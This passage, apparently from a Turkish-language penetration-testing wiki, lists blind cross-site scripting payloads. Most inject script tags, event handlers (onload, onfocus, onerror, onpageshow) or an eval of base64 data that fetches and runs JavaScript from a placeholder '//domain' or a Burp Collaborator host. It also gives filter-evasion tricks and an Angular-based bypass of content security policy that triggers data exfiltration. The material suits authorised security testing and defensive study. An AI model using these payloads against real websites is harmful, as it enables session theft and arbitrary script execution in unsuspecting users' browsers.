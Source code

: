 ### Kör XSS yükleri

Ayrıca şunu da kullanabilirsiniz: [https://xsshunter.com/](https://xsshunter.com)
```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')">

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
### Regex - Gizli İçeriğe Erişim
